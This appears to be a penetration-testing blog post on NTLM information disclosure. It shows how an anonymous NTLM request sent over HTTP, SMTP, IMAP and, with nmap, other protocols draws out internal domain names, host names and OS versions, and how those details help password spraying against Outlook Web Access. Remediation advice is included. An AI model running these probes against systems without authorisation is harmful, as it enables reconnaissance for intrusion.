



Information Disclosure in NTLM Authentication
March 05, 2020During an offensive security engagement it may not be a major vulnerability that leads to your end-goal, but a combination of lower severity findings compounded to make a larger impact. This post discusses information disclosure through NTLM authentication, which is one of those smaller vulnerabilities that can lead to greater attacks under the right circumstances. Additionally, we will demonstrate methods for invoking an NTLM challenge response, even when no login page is present, to coerce this information.
Overview
NTLM is a challenge/response authentication protocol utilized by Windows systems in which the user's actual password is never sent over the wire. Instead, the requesting client receives a challenge response from the server and must perform a calculation that proves their identity. I am far over simplifying this process, but the diagram below is a good example of how this authentication scheme works in a Windows AD environment. Now, how does this help in getting sensitive internal information? Once a target is identified as using NTLM authentication, we can initiate a connection and send anonymous (null) credentials, which will prompt the server to respond with an NTLM Type 2 challenge response. This response message can be decoded to reveal information about the server, such as: NetBIOS, DNS, and OS build version information:
Target_Name: DEMO
NetBIOS_Domain_Name: DEMO
NetBIOS_Computer_Name: SRV01
DNS_Domain_Name: demo.local
DNS_Computer_Name: srv01.demo.local
DNS_Tree_Name: demo.local
Product_Version: 6.3.9600Impact
During a penetration test this can be used to identify internal naming conventions, determine end-of-life operating systems, and discover internal DNS names. To describe one potential use-case for this data, the domain suffix, found in the decoded response, is often required for password spraying attacks against Outlook web applications. Targeting OWA is a common technique used by hackers to identify valid domain credentials, and made possible through this exposure.  Although not the most prestigious vulnerability, if found against a bug bounty target, you may be able to leverage this internal disclosure for a few quick points: Exploitation (HTTP)
Typically, when visiting a website or directory requiring privileged access, the server will initiate a login prompt. This allows the client to send blank username and password values to check for NTLM authentication and receive the encoded response. However, if the target server is configured to allow windowsAuthentication, it may be possible to invoke this response without a login prompt. This can be done by adding Authorization: NTLM TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA= to the request headers.
Alternate Protocols
Few may know the trick of adding the "Authorization" header to prompt a response from the server over HTTP. However, I recently discovered NTLM in other protocols that can be exploited using a similar approach. Through Telnet we can interact with other services, outside of the browser, to force an NTLM challenge response and decode this value to attain the same information.SMTP
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM
334 NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
IMAP
root@kali: telnet example.com 143
* OK The Microsoft Exchange IMAP4 service is ready.
>> a1 AUTHENTICATE NTLM
+
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
& more...
If you've spent any time around Windows you may have guessed this was possible, as NTLM authentication can be found in any number of places. Protocols such as: HTTP, SMTP, IMAP, POP3, RDP, MS-SQL, NNTP, TELNET, and more may also be susceptible to this type of disclosure. While exploiting this in other protocols requires more than just a Telnet session, we can easily automate the search using NMAP's NSE scripts:root@kali: nmap -sS -v --script=*-ntlm-info --script-timeout=60s example.com
Nmap scan report for x.x.x.x
Host is up (0.0063s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE
80/tcp open http
| http-ntlm-info:
| Target_Name: IIS01
| NetBIOS_Domain_Name: IIS01
| NetBIOS_Computer_Name: IIS01
| DNS_Domain_Name: IIS01
| DNS_Computer_Name: IIS01
|_ Product_Version: 6.3.9600
Defensive Measures
The recommended remediation for this vulnerability is to disable NTLM authentication over HTTP in the IIS Manager. Restricting public access to the ports utilizing Windows Authentication is another approach to containing the exposure and will help to prevent brute-force attacks against the service.References and Additional Resources:
http://davenport.sourceforge.net/ntlm.htmlhttps://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm
https://blog.gdssecurity.com/labs/2014/2/12/http-ntlm-information-disclosure.html